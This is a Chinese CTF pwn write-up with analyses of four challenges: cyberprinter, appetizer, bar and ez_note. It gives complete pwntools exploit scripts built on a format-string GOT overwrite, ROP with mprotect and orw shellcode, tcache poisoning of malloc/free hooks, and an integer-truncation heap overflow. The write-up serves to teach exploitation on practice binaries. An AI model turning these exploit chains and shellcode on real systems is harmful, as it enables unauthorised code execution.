## cyberprinter

### 保护策略：


### 漏洞所在：




首先是printf函数%s可以泄露一个libc地址(让输入写满)，然后存在一个格式化字符串的洞，但是if进行了一些检查，无法利用%p或者%x来泄露地址，出题人这里仅仅就是想让我们去任意写而非任意读。

### 利用思路：

由于程序是系统调用exit退出的，因此无法劫持exit里的结构体指针。

发现printf执行后，执行了一个puts，考虑去劫持IO里的某些指针。考虑去伪造stdout结构体里的vtable指针，控制其偏移，让__xsputn落在one_gadget上即可。但实际操作的时候发现vtable这个基地址中出现了0x78，结果导致了if判断时被过滤掉了，因此这个思路也断了。

经过roderick和winmt师傅的提示，这题采用一种新的思路，来劫持libc中的got表。

本题的libc保护如下：




可以看见保护是Partial RELRO，这就意味着我们可以篡改其函数的got表。

而puts函数又调用了strlen函数，也就是在libc中执行puts函数时，又通过strlen函数的got表跳转到了strlen函数。

我们去劫持strlen函数的got表为one_gadget即可。

### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
context(arch='amd64',os='linux',log_level='debug')
p,e,libc=load("print","node4.buuoj.cn:26047")
#debug(p,'pie',0x13A0,0x13E9)
p.sendafter("Your name?pls..\n","a"*0x18)
leak_libc=recv_libc()
libc_base=leak_libc-0x1ec5c0
log_addr('libc_base')
strlen_addr=libc_base+0x1EB0A8#libc中strlen函数的got表地址
one_gadget=search_og(1)+libc_base
log_addr('one_gadget')
payload=fmtstr_payload(offset=8,writes={strlen_addr:one_gadget},numbwritten=0, write_size='byte')
p.sendafter("But there is sth wrong in it,so you can't do sth",payload)
p.interactive()
```




## appetizer

### 保护策略：




### 漏洞所在：


这里存在一个溢出，虽然不会溢出到返回地址，但是后八个字节决定了下图read是往哪里输入的。


上图这里泄露了一个地址，通过这个我们可以拿到程序基地址，而且这个地址也是接下来read往里面输入了0x108字节的地址。


### 利用思路：

其实这道题的意图很明显，出题人应该是想让我们迁移到这里(如下图)，因为这里我们是可以把rop链布置到这里的。




然后去打rop，同时因为禁用了execve，因此最终应该是考虑打orw。

我们先看看如何迁移到这个地址上。

首先通过调试，我们发现如果我们在第一次输入里，最后的字节发8个a，那么最后一次的read的buf就会变成一堆a(如下)


这个地址表面上是我们可控的，但是我们没有栈地址，因此其实是控制不了程序的执行流的。不过这里我观察了一下，这个read的buf正常的值(也就是不利用第一次输入的那个溢出)(如下)就是rbp，而正好可以控制rbp的值和返回地址(这也就是我们打栈迁移的条件)



#### rop链的构建

然后我们那边的rop链的思路是先泄露libc地址，然后再执行一次read读进来一条新的rop链来打orw。但难点是我们无法控制rdx寄存器，导致read函数用残留的rdx中数据直接读的话，只能读进来16个字节的数据。(而这新读的16个字节数据，就可以使用libc里的gadget地址了)，因此我们使用一个libc里的pop rdx的gadget再执行一次read函数，来读入更多的数据。

先说第一条链的第一部分（使用write函数进行libc地址的泄露（如下图），不知道为啥我这里用puts泄露不了）

```py
rop=p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(e.got['write']+base_addr)+p64(0)+p64(e.plt['write']+base_addr)
```




再说第一条链的第二部分（这个部分的意义就是把libc里这个pop rdx的gadget给读到内存里来，这里read函数的第二个参数需要布局一下）（如下图）

```py
rop+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(base_addr+0x40d8)+p64(0)+p64(e.plt['read']+base_addr)
```

通过对比下面两幅图，就可以发现输入前后，就把0xdeadbeef给覆盖成了pop_rdx_r12






最后第一条链的第三部分（这部分是提前写好read的第一参数和第二个参数，但是第三个参数的位置，我用了0xdeadbeef来占位，因为在这条链的第二部分，read函数就将前两个0xdeadbeef覆盖成了pop_rdx_r12和0，这样第三条链实际上就是正常的了(第三个0xdeadbeef无所谓了，反正会被弹到r12寄存器里)）

```py
rop+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(base_addr+0x40f8)+p64(0)+p64(0xdeadbeef)*3+p64(e.plt['read']+base_addr)
```

而执行完第一条链后，我们就可以在使用libc中任意gadget的前提下写入新的rop链。(如下图)



为了方便，我先去利用gadget传参且执行了mprotect函数，将这个内存页直接变成可读可写可执行了，最后跟了个orw的shellcode(最后orw这里有个坑，打远程不知道为啥，正常的orw在远程读不出来flag，而本地可以读出来。这里必须要先close(0)，然后再去打开flag文件，然后read从文件描述符0里读数据才行）

调试过程如下：




然后先用close把标准输入给关了，再打orw即可拿到flag




### EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
context(arch='amd64',os='linux',log_level='debug')
p,e,libc=load("app","node4.buuoj.cn:29916")

#debug(p,'pie',0x1464)
payload="\x00\x00Nameless"
p.sendafter("Let's check your identity\n",payload)
p.recvuntil('Here you are:')
leak_addr=int(p.recv(14),16)
base_addr=leak_addr-0x4050
log_addr('base_addr')
pop_rsp_r13_r14_r15=0x00000000000014cd+base_addr
pop_rdi=0x00000000000014d3+base_addr
pop_rsi_r15=base_addr+0x00000000000014d1
leave=base_addr+0x00000000000012d8
rop=p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(e.got['write']+base_addr)+p64(0)+p64(e.plt['write']+base_addr)
rop+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(base_addr+0x40d8)+p64(0)+p64(e.plt['read']+base_addr)
rop+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(base_addr+0x40f8)+p64(0)+p64(0xdeadbeef)*3+p64(e.plt['read']+base_addr)
p.sendlineafter("And pls write your own information on it\n",rop)
p.sendafter("Tell me your wish:\n",p64(leak_addr-8)+p64(leave))
leak_libc=recv_libc()
libc_base=leak_libc-0x111040
log_addr('libc_base')
pop_rsi=0x0000000000027529+libc_base
pop_rdx_r12=0x11c1e1+libc_base
pop_rax=libc_base+0x4a550
syscall=0x000000000002584d+libc_base
mprotect=0x000000000011b970+libc_base
rop=p64(pop_rdx_r12)+p64(0x1000)
p.send(rop)
pause()
rop=p64(pop_rdi)+p64(leak_addr-0x50)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx_r12)+p64(7)+p64(0)+p64(pop_rax)+p64(10)+p64(mprotect)+p64(base_addr+0x4150)
rop+=b"\x48\xC7\xC0\x03\x00\x00\x00\x48\xC7\xC7\x00\x00\x00\x00\x0F\x05\x49\xB8\x2F\x66\x6C\x61\x67\x00\x00\x00\x41\x50\x54\x5F\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x50\x5F\x54\x5E\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x01\x5F\x54\x5E\x6A\x50\x5A\x6A\x01\x58\x0F\x05"
p.sendline(rop)
p.interactive()

```




## bar

### 保护策略：


### 漏洞所在：

首先在show函数里程序自己泄露了一个libc地址。




存在UAF漏洞：




然后在申请堆块之后写入数据时会在用户区第三个内存单元开始输入数据(第一个内存单元用于存储一个size(如下)，第二个内存单元是空的)，但是输入的数据依然是malloc申请的size，这就意味着我们可以溢出下一个内存单元的prev_size和size位




**而在delete函数中我们可以控制记录堆块的那个size(如下)，但恰巧这个位置是处于free状态的堆块的fd指针(这也是这道题的核心利用点)，因此我们可以在这里篡改堆块的fd指针**




### 利用思路：

本题我们可以控制被释放掉堆块的fd指针，同时还有libc地址，那就可以直接打tcache poisoning。

我们先申请四个堆块，分别为chunk1、chunk2、chunk3、chunk4（都申请size为0x50即可）

在chunk3中存入malloc_hook-0x10的地址

然后我们再将其全部释放掉，进入tcache bin。**我们去修改一下chunk2的fd指针让其不指向chunk3的地址而去指向chunk3中存放的malloc_hook-0x10处，如此就劫持了tcache bin的这条链，最后申请出来在malloc_hook上写一个one_gadget的地址即可。**

调试过程如下：







为什么当时打tcache poisoning的时候，需要让malloc_hook的地址-0x10（原因如下），**因为数据是从用户区+0x10的位置开始写入的，因此申请的时候需要提前-0x10.**


### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
p,e,libc=load("a",'')

d_d=0x16D5
d_a=0x16C1
def add(wine,content):
    p.sendlineafter("Your choice:", str(1))
    p.sendlineafter("Whisky , brandy or Vodka?", str(wine))
    p.sendafter("You may want to tell sth to the waiter:", content)

def delete(idx,size):
    p.sendlineafter("Your choice:", str(2))
    p.sendlineafter("Which?", str(idx))
    p.sendlineafter("How much?", str(size))

def show():
    p.sendlineafter("Your choice:", str(3))

show()
p.recvuntil("We will give everyone only one cup of icecream!\n")
leak_libc_addr=int(p.recv(14),16)
libc_base=leak_libc_addr-libc.symbols['_IO_2_1_stdout_']#-0x1ed6a0+0x1000 #
log_addr('libc_base')
one_gadget=libc_base+search_og(1)
log_addr('one_gadget')
malloc_hook=libc_base+libc.symbols['__malloc_hook']

add(1,'a')
add(1,p64(malloc_hook-0x10))
add(1,'a')
add(1,'a')

delete(0,0x50)
delete(1,0x50)
delete(2,0x50)
delete(3,0x50)
debug(p,'pie',d_d,d_a)
delete(2,-0x10)

add(1,'a')
add(1,'a')
add(1,'a')
#debug(p,'pie',d_d,d_a)
add(1,p64(one_gadget))
add(1,'a')
p.interactive()
```





## ez_note

### 保护策略：


### 漏洞所在：

在add函数里的输入函数中，最后用atol函数对buf做了处理(如下图)




而atol函数是将字符串转换成一个长整数(long int类型)，跟这个函数很像的还有一个atoi函数，该函数是将字符串转换成一个整数(int类型)，多亏了[h1J4cker师傅](https://survive2.github.io/)给我说了一下，以前还真没注意过这俩函数的区别。

而这道题的漏洞也在此，atol函数返回的是long int类型，可之后if在进行检查的时候却强转成了Int类型。


就导致了这里输入一个大数可以绕过这个检查。

举个例子我们输入4294967440，这个数字转换成二进制如下(int类型为4字节，最高比特位为符号位)

```
0001     0000 0000     0000 0000     0000 0000     1001 0000
```


如果是long int类型，则这个数字就是正常的。但如果是强转成Int类型，那么会舍弃4字节之外的比特位(从右往左数32比特)，这样其实在判断的时候这个数字就成了144(如下)，从而绕过了检查。

```
0000 0000     0000 0000     0000 0000     1001 0000
```


可是最终往堆块里输入的数据又没有进行int强转，这样我们实际写入的就是那个大数4294967440，从而导致了堆溢出。


### 利用思路：

不过本题中除了上述漏洞外不存在任何漏洞，就导致了我们想要泄露libc地址只能打一个堆块重叠让unsorted bin的fd和bk指针落在使用状态中的堆块上，然后将其打印出来。

具体实现过程如下:

1、先申请出来十个堆块，依次命名为chunk1，chunk2，chunk3...chunk10

2、我们将后七个堆块(chunk4-chunk10)全部释放掉

3、再将前三个堆块(chunk1、chunk2、chunk3)给释放掉，此时这三个堆块就会全部进入到unsorted bin中，而之后的tcache bin中的7个堆块则填满tcache bin同时还防止了前三个进入unsorted bin中的堆块与top chunk合并

4、再将在tcachebin中的七个堆块给申请出来，需要注意的是我们在申请第六个堆块的时候要去写入一个伪造的prev_size和size保证之后可以顺利的从unsorted bin中取出堆块。(此时的情况如下)




5、接下来我们申请堆块时，size写成一个大数，造成溢出来篡改unsorted bin的size。(篡改后如下)




6、我们申请一个特定大小的堆块让更新后的unsorted bin的fd和bk指针正好落在一个正在使用的堆块用户区。(如下图)




7、打印索引为6的堆块，就可以进行泄露libc地址

8、最后打一个tcache poisoing劫持tcache bin的fd指针将free_hook申请出来，释放掉一个存有/bin/sh字符串的堆块即可获取shell


### EXP：

```py
from tools import *
context.log_level='debug'
p,e,libc=load("a",'')

d_d=0x16BB
d_a=0x16A9
d_s=0x16CD

def add(size,content):
    p.sendlineafter('Your choice:',str(1))
    p.sendafter('Note size:',str(size))
    p.sendafter('Note content:',content)
    p.recvuntil('1.Add note\n')
    
def delete(index):
    p.sendlineafter('Your choice:',str(2))
    p.sendlineafter('Note ID:',str(index))
    
def show(index):
    p.sendlineafter('Your choice:',str(3))
    p.sendlineafter('Note ID:',str(index))
    
for i in range(10):
    add(0x90,'b')

for i in range(3,10):
    delete(i)
delete(0)
delete(1)
delete(2)

for i in range(5):
    add(0x90,'b')
add(0x90,p64(0x200)+p64(0x90))
add(0x90,'a')
add(4294967424,b'u'*0x80+p64(0x0)+p64(0x201)[:7])

add(0x140,'a')
show(6)
leak_libc=recv_libc()
libc_base=leak_libc-0x1ebbe0
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
sys_addr=libc_base+libc.symbols['system']
log_addr('free_hook')
delete(0)

delete(1)
delete(2)
add(4294967424+16,b's'*0x90+p64(0)+p64(0xa1)+p64(free_hook)[:7])
add(0x90,'/bin/sh\x00')
add(0x90,p64(sys_addr))
delete(1)
p.interactive()
```

